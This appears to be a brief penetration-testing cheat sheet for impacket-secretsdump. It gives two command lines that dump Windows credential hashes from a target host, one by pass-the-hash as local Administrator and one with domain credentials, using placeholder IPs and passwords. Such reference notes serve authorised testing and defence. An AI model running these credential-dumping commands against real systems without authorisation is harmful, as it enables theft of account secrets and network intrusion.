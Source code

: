 # Impacket-secretsdump

### 1) Local Admin on machine

    impacket-secretsdump ./Administrator@machine -hashes ':ffffffffffffffffffffffffffffffff' -dc-ip 10.10.100.1 -target-ip 10.10.100.12

### 2) Using credentials 

    impacket-secretsdump domain.com/user:'Password123!'@machine -dc-ip 10.10.100.1 -target-ip 10.10.100.12
